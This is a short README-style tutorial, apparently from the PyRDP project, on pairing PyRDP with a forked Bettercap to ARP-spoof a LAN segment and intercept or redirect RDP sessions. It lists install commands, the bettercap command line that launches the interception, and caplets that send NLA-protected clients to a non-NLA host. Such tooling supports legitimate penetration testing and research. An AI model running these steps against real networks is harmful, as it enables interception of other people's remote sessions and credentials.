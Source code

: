 # Run PyRDP alongisde Bettercap

Here is a short tutorial on how to combine the PyRDP and Bettercap to
redirect all RDP sessions on a LAN segment. By default, Bettercap's arp
spoofing module will spoof the entire subnet over a given interface. We
will spawn an instance of PyRDP for each incoming RDP connections if they
are in our target list, otherwise we will forward them.

## Requirements

1. PyRDP  
2. Our fork and branch of [Bettercap](https://github.com/GoSecure/bettercap/tree/rdp-mitm)
3. Our fork of [Caplets](https://github.com/GoSecure/caplets/)

## Setup

Install PyRDP by following these steps : https://github.com/GoSecure/pyrdp#installing

Install Bettercap by running these commands :

    sudo apt-get update
    sudo apt-get install build-essential libpcap-dev libusb-1.0-0-dev libnetfilter-queue-dev
    mkdir -p $GOPATH/src/github.com/bettercap/
    cd $GOPATH/src/github.com/bettercap/
    git clone https://github.com/GoSecure/bettercap.git -b rdp-mitm
    cd bettercap
    go get
    go build
    make build && sudo make install

Install Caplets by running these commands :

    mkdir -p ~/src/
    cd ~/src/
    git clone https://github.com/GoSecure/caplets.git
    cd caplets
    sudo make install

## Usage

Start bettercap with :

    sudo bettercap -iface <interface> -caplet <caplet> -eval "set rdp.proxy.command $(which pyrdp-mitm.py)"

Basic example :

    sudo bettercap -iface wlp2s0 -caplet rdp-proxy/rdp-sniffer.cap -eval "set rdp.proxy.command $(which pyrdp-mitm.py)"

We currently have 2 caplets. Read each caplet's source for further documentation and usage. Here's a quick rundown :

<dl>
  <dt>rdp-proxy/rdp-sniffer.cap</dt>
  <dd>The default caplet. Forwards every target to a PyRDP instance if they have disabled NLA.</dd>

  <dt>rdp-proxy/rdp-sniffer-nla-redirect.cap</dt>
  <dd>Will forward every target to a PyRDP instance if they have disabled NLA. Otherwise, redirect the client to a user-defined non-NLA host.</dd>
  <dd>Requires some configuration inside the caplet at ~/caplets/rdp-proxy/rdp-sniffer-nla-redirect.cap</dd>
  <dd>Don't forget to `sudo make install` after editing the caplet.</dd>
</dl>

Have fun!
